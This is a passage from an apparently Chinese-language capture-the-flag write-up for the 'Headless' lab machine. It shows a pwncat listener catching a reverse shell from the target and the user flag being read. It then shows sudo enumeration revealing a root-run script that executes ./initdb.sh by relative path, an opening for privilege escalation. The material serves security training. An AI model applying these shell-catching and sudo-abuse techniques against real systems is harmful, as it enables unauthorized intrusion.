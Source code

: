 成功执行

## User - dvir

```bash
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[22:52:56] Welcome to pwncat 🐈!
[22:53:21] received connection from 10.10.11.8:43764
[22:53:32] 10.10.11.8:43764: registered new host w/ db
(local) pwncat$ back
(remote) dvir@headless:/home/dvir/app$ whoami
dvir
```

### flag - user

```bash
(remote) dvir@headless:/home/dvir$ cat user.txt
2fad488ea81fe0a47f534e7350e97913
```

### 环境探测

```bash title="sudo -l"
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

查看文件信息

```bash title="file /usr/bin/syscheck"
/usr/bin/syscheck: Bourne-Again shell script, ASCII text executable
```

看看脚本代码

```bash title="/usr/bin/syscheck"
#!/bin/bash

if ["$EUID" -ne 0]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```